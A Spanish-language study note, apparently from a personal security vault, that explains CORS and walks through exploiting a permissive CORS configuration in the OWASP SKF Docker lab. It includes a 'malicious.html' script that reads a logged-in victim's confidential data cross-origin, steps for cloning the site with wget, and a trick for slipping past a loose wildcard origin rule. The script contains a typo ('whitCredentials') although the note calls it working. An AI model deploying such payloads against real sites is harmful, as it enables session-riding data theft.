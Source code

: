 -----
- Tags:  #vulnerabilidades #web #cors
----
# Definición

> El **Intercambio de recursos de origen cruzado** (**CORS**) es un mecanismo que permite que un servidor web **restrinja** el **acceso a recursos** de **diferentes orígenes**, es decir, de diferentes dominios o protocolos. CORS se utiliza para proteger la privacidad y seguridad de los usuarios al evitar que otros sitios web accedan a información confidencial sin permiso de un sitio web especifico.

Supongamos que tenemos una aplicación web en el dominio “**example.com**” que utiliza una API web en el dominio “**api.example.com**” para recuperar datos. Si la aplicación web está correctamente configurada para CORS, solo permitirá solicitudes de origen cruzado desde el dominio “**example.com**” a la API en el dominio “**api.example.com**“. Si se realiza una solicitud desde un dominio diferente, como “**attacker.com**“, la solicitud será bloqueada por el navegador web.

Sin embargo, si la aplicación web no está correctamente configurada para CORS, un atacante podría aprovecharse de esta debilidad para acceder a recursos y datos confidenciales. Por ejemplo, si la aplicación web no valida la autorización del usuario para acceder a los recursos, un atacante podría inyectar código malicioso en una página web para realizar solicitudes a la API de la aplicación en el dominio “**api.example.com**“.

El atacante podría utilizar herramientas automatizadas para probar diferentes valores de encabezados CORS y encontrar una configuración incorrecta que permita la solicitud desde otro dominio. Si el atacante tiene éxito, podría acceder a recursos y datos confidenciales que no deberían estar disponibles desde su sitio web. Por ejemplo, podría recuperar la información de inicio de sesión de los usuarios, modificar los datos de la aplicación, etc.

Para prevenir este tipo de ataque, es importante configurar adecuadamente CORS en la aplicación web y asegurarse de que solo se permitan solicitudes de origen cruzado desde dominios confiables.
### Ejemplo:

**CORS** es una forma en la que un servidor le dice al navegador qué sitios web están **permitidos** para acceder a sus datos.

Imagina que tu sitio web está en `mipagina.com`, pero necesitas obtener información de otro sitio llamado `otro-sitio.com`. Normalmente, el navegador **no deja** que una página web acceda a recursos (datos) de otro sitio para evitar problemas de seguridad.

Con **CORS**, el sitio `otro-sitio.com` puede decirle al navegador: "Está bien, dejo que `mipagina.com` acceda a mi información". Esto se hace usando unas reglas especiales (cabeceras) que el servidor de `otro-sitio.com` envía para que el navegador sepa que está permitido.

==Resumiendo==

- **Sin CORS**: El navegador bloquea el acceso a otros sitios web por seguridad.
- **Con CORS**: El servidor del otro sitio le da permiso al navegador para compartir su información con tu sitio web.

Este mecanismo asegura que no cualquier sitio pueda obtener datos de otro, **a menos que se le permita específicamente**.

-----
# Explotación de CORS en laboratorio

Para desplegar nuestro contenedor en **Docker** emplearemos los siguientes comandos

- ``docker pull blabla1337/owasp-skf-lab:cors``
- ``docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:cors``

Con esto nuestro *puerto 5000* hará **Port Forwarding** con el *puerto 5000* del contenedor, ahora solo queda dirigirnos a http://localhost:5000, disponiendo de las credenciales ``admin:admin``

------

Nuestro objetivo como atacantes es aprovechar que esta web **no posee la configuración correcta del CORS**, ya que no posee Webs exclusivas a las que le permita extraer su información, si no que al contrario, tiene especificado que cualquier web externa puede hacerlo, permitiéndonos **extraer** información confidencial desde nuestro servidor web de **atacante**, intentando que el usuario propietario de las credenciales ``admin:admin`` ingrese a nuestra web maliciosa y que sin que el se de cuenta podamos robarle los datos confidenciales que se encuentran dentro de su sesión.

Estos son los datos confidenciales que posee el usuario **admin** una vez se autentica en la web vulnerable.

![[CORS 1.png]]

Interceptemos la petición de la web con nuestro **Burpsuite**

![[CORS 2.png]]

-----
- **``Access-Control-Allow-Credentials: true``**

	- Esta cabecera indica que el servidor permite que las credenciales, como cookies, encabezados de autenticación HTTP o certificados de cliente, se incluyan en las peticiones de origen cruzado. Es decir, si haces una solicitud desde un dominio distinto al del servidor, este permitirá que se envíen y reciban credenciales de autenticación.

- **``Access-Control-Allow-Origin: *``**

    - Esta cabecera indica que el servidor permite solicitudes desde **cualquier origen**. El asterisco (`*`) significa que cualquier dominio puede hacer peticiones al servidor, sin restricciones.
------

Viendo esto, intentemos crear una cabecera en el lado de nuestra **Request** llamada ``Origin: https://www.test.com`` para ver el comportamiento de la respuesta nuevamente.

![[CORS 3.png]]

------

Ahora que detectamos la vulnerabilidad como tal y que observamos que el usuario autenticado ``admin`` arrastra la **Cookie** debido a la cabecera ``Access-Control-Allow-Credentials: true``, lo que nosotros queremos hacer es **crear un servidor web** que una vez que el usuario ``admin`` ingrese, por detrás **se vuelque en la misma web maliciosa** toda la información confidencial de los sueldos de sus empleados, haciendo una **replica de la web original** en nuestra web de atacante.

Lo primero que tenemos que hacer es cambiar nuestra **Header** ``Origin``, colocándole en este caso **nuestra URL maliciosa**, como nosotros vamos a montar un servidor con ``python3 -m http.server 80``, coloquemos http://localhost

Para hacer esto **crearemos un recurso** en nuestra máquina de atacante llamado *malicious.html*, donde estará nuestra web maliciosa montada.

- **Código con explicación** (==No funcional por los comentarios==)

```js
<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener; // Esto lo que hace es que en cuanto el usuario ingrese a nuestra web, en la carga como tal de la web suceda el hurto de informacion
  req.open('GET', 'http://localhost:5000/confidential', true); // Peticion que va a ir por detras hacia la Web original
  req.whitCredentials = true; // Como el usuario esta autenticado y queremos arrastrar su Cookie de sesion, hacemos uso de esto
  req.send(); // Enviamos la solicitud

  function reqListener() {
    // Aca definimos "stolenInfo", para que toda la respuesta del servidor a la hora de tramitar la solicitud de arriba, sea almacenada aca.
    document.getElementById("stoleInfo").innerHTML = req.responseText;
  }
</script>

<br> <!-- Salto de linea -->
<center><h1>Fuiste Hackeado, la informacion que te he robado fue esta</center></h1> <!-- Esto es un mensaje absurdo, pero lo ponemos igual xd -->

<p id="stoleInfo"></p> <!-- Aca es donde hacemos la llamada al recurso stolenInfo de arriba para que nos muestre la información almacenada luego de haberla robado -->
```

- **Código sin explicación** (==Funcional==)

```js
<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('GET', 'http://localhost:5000/confidential', true);
  req.whitCredentials = true;
  req.send();

  function reqListener() {
    document.getElementById("stoleInfo").innerHTML = req.responseText;
  }
</script>

<br>
<center><h1>Fuiste Hackeado, la informacion que te he robado fue esta</center></h1>

<p id="stoleInfo"></p>
```

Al ingresar a nuestra web maliciosa http://locahost veremos lo siguiente

![[CORS 4.png]]

Tenemos la información confidencial, pero como podemos ver se ve un poco feo, para solucionar esto y ver todo tal cual la web original tenemos que **mirar que recursos faltan de la web** (Esto se ve desde nuestra **consola** en donde montamos el servidor con ``python3``)

![[CORS 5.png]]

Podemos **crear esos directorios** y traernos con ``wget`` los archivos específicos, de esta forma **replicaríamos** por completo la web víctima.

![[CORS 6.png]]

Ahora metemos los archivos dentro de sus respectivos directorios con ``wget``

![[CORS 7.png]]

Si ahora recargamos la web veríamos todo idéntico salvo por nuestro mensaje personalizado que dejamos en nuestro código.

![[CORS 8.png]]

-------

Un dato a tener en cuenta, es que hay **Webs** en las que se indica el ``Access-Control-Allow-Origin`` de esta manera ``Access-Control-Allow-Origin: *.dominio-a.com`` como si fuera un **Sub-dominio**. Tenemos que entender que hay veces que las **Regex** se emplean mal, de forma que con el punto (``.``) nosotros podemos por ejemplo registrar un dominio que sea ``Fdominio-a.com`` que es **un dominio completamente diferente** al que figura en el ``Access-Control-Allow-Origin``, pero esa **Wildcard** (``*``) con el punto (``.``) al fin y al cabo el punto contempla un caracter, por lo tanto si colocamos un solo caracter en el lugar del punto obtendríamos tener permisos para el **CORs**.
